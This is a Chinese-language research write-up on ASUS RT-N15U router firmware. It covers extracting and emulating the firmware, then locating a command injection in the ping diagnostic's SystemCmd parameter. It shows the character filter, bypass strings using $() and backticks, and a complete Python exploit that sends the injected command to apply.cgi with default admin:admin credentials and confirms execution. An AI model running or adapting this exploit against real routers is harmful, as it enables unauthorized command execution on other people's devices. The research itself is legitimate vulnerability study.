






# RT_N15U_30043763754初探


包格式为.trx  和.bin一样,是固件包的一种。


```

binwalk -Me FW_RT_N15U_30043763754.trx 

```


查看下目录，发现了几个不同于dlink的文件夹，但点进去都是空。查阅资料发现
jffs 文件夹是 ASUS 路由器固件中一个非常有用的持久性存储区域，主要用于用户自定义文件、第三方软件安装和其他持久性数据存储。


---
查看下基本信息

mips 小端序

---

# firmwalker

```
 sudo ./firmwalker.sh '/home/iot/Desktop/ASUS/RT_N15U/_FW_RT_N15U_30043763754.trx.extracted/squashfs-root'

```
简单分析了扫描结果后，并没有什么收获

---

# 分析启动项

发现firmAE可以模拟起来，
```
sudo ./run.sh -d asus '/home/iot/Desktop/ASUS/RT_N15U/FW_RT_N15U_30043763754.trx'
```

那我们模拟后，查看他是如何初始化的。

```
  PID USER       VSZ STAT COMMAND
    1 admin     2316 S    /sbin/init
    2 admin        0 SW   [kthreadd]
    3 admin        0 SW   [ksoftirqd/0]
    4 admin        0 SW   [kworker/0:0]
    5 admin        0 SW<  [kworker/0:0H]
    6 admin        0 SW   [kworker/u2:0]
    7 admin        0 SW<  [khelper]
    8 admin        0 SW   [khungtaskd]
    9 admin        0 SW<  [writeback]
   10 admin        0 SWN  [ksmd]
   11 admin        0 SW<  [crypto]
   12 admin        0 SW<  [bioset]
   13 admin        0 SW<  [kblockd]
   14 admin        0 SW<  [ata_sff]
   15 admin        0 SW<  [cfg80211]
   16 admin        0 SW   [kworker/0:1]
   17 admin        0 SW   [kswapd0]
   18 admin        0 SW   [fsnotify_mark]
   35 admin        0 SW   [scsi_eh_0]
   36 admin        0 SW<  [scsi_tmf_0]
   37 admin        0 SW   [scsi_eh_1]
   38 admin        0 SW<  [scsi_tmf_1]
   39 admin        0 SW   [kworker/u2:1]
   40 admin        0 SW   [kworker/u2:2]
   41 admin        0 SW   [kworker/u2:3]
   44 admin        0 SW<  [kpsmoused]
   45 admin        0 SW<  [ipv6_addrconf]
   46 admin        0 SW<  [deferwq]
   47 admin        0 SW<  [kworker/0:1H]
   51 admin      756 S    hotplug2 --persistent --no-coldplug
   52 admin     1668 S    /bin/sh
   68 admin     2292 S    console
   70 admin     1568 S    /bin/sh
   71 admin     1648 S    syslogd -m 0 -S -O /tmp/syslog.log -s 256 -l 6
   73 admin     1648 S    /sbin/klogd
   74 admin     2296 S    usbled
  115 admin     2292 S    ntp
  124 admin     2292 S    /sbin/wanduck
  130 admin     1544 S    nas
  132 admin     2292 S    wpsaide
  133 admin     1864 S    httpd
  134 admin     1160 S    /usr/sbin/infosvr br0
  135 admin     1240 S    networkmap --bootwait
  136 admin     2296 S    watchdog
  139 admin     1268 S    lld2d br0
  144 admin     2292 S    ots
  146 admin     2160 S    u2ec
  149 admin     1260 S    lpd
  150 admin     2160 S    u2ec
  151 admin     2160 S    u2ec
  

```


跟dlink 用rcS启动脚本不同，AUSU是用二进制文件/sbin/init来初始化的 。


init是个软连接，最后还是用rc程序来初始化。程序初始化完成后，再用httpd  ,启动web服务。

---

# cvelist

---
# 漏洞点—ping 命令执行


命令注入应该在systemCmd ，但是怎么试都不能执行。

用ida看看 ，是否是过滤了。


下拉菜单有个三个字符串，所以我借助这三个值来定位函数。




查看汇编，这里的值是从SystemCmd来的



然后它过滤了  |  & % ；   这四个符号。


过滤了如下  

38 -> &
59 -> ;
37 -> %
124 -> |
10 -> \n（换行符）
13 -> \r（回车符）




```
ls$(ps >aaa.asp)
ls`ps >aaa.asp`

没有管道符，可以用$()   和`` 绕过

linux下：&&、||、；、$()、··（反引号TAB上面的那个键）、%0a、%0d 

```




成功了。


---
exp
```

# -*- coding: utf-8 -*-

import requests


###########################################

target_ip="192.168.1.1"

cmd="echo 22222222 > /www/test.asp"

payload="ping+-c+5+127.0.0.1$("+cmd+")"


burp0_url = "http://"+target_ip+":80/apply.cgi?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&preferred_lang=EN&SystemCmd="+payload+"&firmver=3.0.0.4&cmdMethod=ping&destIP=127.0.0.1%24%28echo+111+%3E+%2Fwww%2Ftest.asp%29&pingCNT=5"

burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Authorization": "Basic YWRtaW46YWRtaW4=", "Connection": "close", "Referer": "http://192.168.1.1/Main_Analysis_Content.asp", "Upgrade-Insecure-Requests": "1"}
requests.get(burp0_url, headers=burp0_headers)

###其中"Authorization": "Basic YWRtaW46YWRtaW4="认证。    base64解码为admin:admin

########################################

burp1_url = "http://"+target_ip+":80/Main_Analysis_Content.asp"

burp1_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Authorization": "Basic YWRtaW46YWRtaW4=", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
requests.get(burp1_url, headers=burp1_headers)


################################
y = requests.get('http://'+target_ip+'/test.asp')
print(y.text)


```


---


